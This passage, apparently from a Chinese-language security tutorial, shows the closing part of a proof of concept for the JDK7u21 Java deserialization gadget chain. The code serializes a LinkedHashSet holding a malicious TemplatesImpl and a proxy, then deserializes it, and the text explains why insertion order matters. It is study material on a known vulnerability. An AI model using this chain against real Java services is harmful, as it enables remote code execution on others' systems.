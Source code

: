 ```java
        // 为tempHandler创造一层代理
        Templates proxy = (Templates) Proxy.newProxyInstance(JDK7u21.class.getClassLoader(), new Class[]{Templates.class}, tempHandler);

        // 实例化HashSet，并将两个对象放进去
        HashSet set = new LinkedHashSet();
        set.add(templates);
        set.add(proxy);

        // 将恶意templates设置到map中
        map.put(zeroHashCodeStr, templates);

        ByteArrayOutputStream barr = new ByteArrayOutputStream();
        ObjectOutputStream oos = new ObjectOutputStream(barr);
        oos.writeObject(set);
        oos.close();

        System.out.println(barr);
        ObjectInputStream ois = new ObjectInputStream(new ByteArrayInputStream(barr.toByteArray()));
        Object o = (Object)ois.readObject();
    }

    public static void setFieldValue(Object obj, String fieldName, Object value) throws Exception {
        Field field = obj.getClass().getDeclaredField(fieldName);
        field.setAccessible(true);
        field.set(obj, value);
    }


}

```

注意这里代码添加的顺序

```java
set.add(templates);
set.add(proxy);
```

在hash表中，同一hash地址对应的链表中的元素是有先后顺序的，我们要保证`key.equals(k)`的k是恶意TemplatesImpl，key是代理对象，而不是反过来。

#### 修复

![image-20240805153347656](./images/image-20240805153347656.png)
